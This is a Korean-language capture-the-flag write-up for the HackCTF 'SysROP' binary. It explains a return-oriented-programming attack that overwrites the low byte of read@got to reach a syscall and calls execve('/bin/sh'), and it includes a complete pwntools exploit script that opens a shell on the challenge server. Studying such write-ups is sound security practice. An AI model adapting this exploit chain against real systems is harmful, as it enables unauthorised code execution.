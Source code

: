 ```yaml
---
title: "[HackCTF]SysROP"
date: 2019-12-29
tags: [HackCTF]
categories: [HackCTF]
---
```


그냥 웬만한 gadget 다 있길래 그냥 릭해서 풀라고 했는데 출력함수가 없었다.. 근데 가젯중에 `0x00000000004005ea : pop rax ; pop rdx ; pop rdi ; pop rsi ; ret` 이런게 존재해서 rax에 syscall 번호를 넣어주고 가젯들 세팅해주면 syscall을 이용할 수 있을거다. read 함수에서 syscall이 있어서 이를 이용하면 될거다.

`read@got`의 하위 1바이트를 0x5e로 overwrite하면 read함수 호출할 때마다 syscall이 호출될거다.

![](https://user-images.githubusercontent.com/32904385/71559865-62dfe700-2aa6-11ea-8af8-3498559254dd.png)

syscall을 이용해 `execve` 를 호출해 `execve('/bin/sh\x00',0,0)` 이런식으로 넣어주면 쉘이 실행될거다.

data영역에 `/bin/sh\x00` 을 넣고 `read@got` 의 하위 1바이트는 overwrite 해서 syscall 호출해 인자를 `execve('/bin/sh\x00',0,0)`  이렇게 만들어주면 된다. execve의 syscall num은 59다.

> exploit.py

```python
from pwn import *

e = ELF('./sysrop')
# p = process('./sysrop')
p = remote('ctf.j0n9hyun.xyz',3024)
libc = ELF('./libc.so.6')

data = 0x601030
syscall_gadget = 0x00000000004005ea # pop rax ; pop rdx ; pop rdi ; pop rsi ; ret
pop3ret = 0x00000000004005eb # pop rdx ; pop rdi ; pop rsi ; ret
main = 0x00000000004005F2

payload = 'A'*0x18
payload += p64(pop3ret)
payload += p64(10) # rdx
payload += p64(0) # rdi
payload += p64(data) # rsi
payload += p64(e.plt['read'])
payload += p64(main)

p.sendline(payload)
sleep(0.1)
p.sendline('/bin/sh\x00')
sleep(0.1)

payload2 = 'A'*0x18
payload2 += p64(pop3ret)
payload2 += p64(1)# rdx
payload2 += p64(0) # rdi
payload2 += p64(e.got['read']) # rsi
payload2 += p64(e.plt['read'])

payload2 += p64(syscall_gadget)
payload2 += p64(59) # rax
payload2 += p64(0) # rdx
payload2 += p64(data) # rdi
payload2 += p64(0) # rsi
payload2 += p64(e.plt['read'])

p.sendline(payload2)
sleep(0.1)
p.sendline('\x5e')
sleep(0.1)

p.interactive()
```

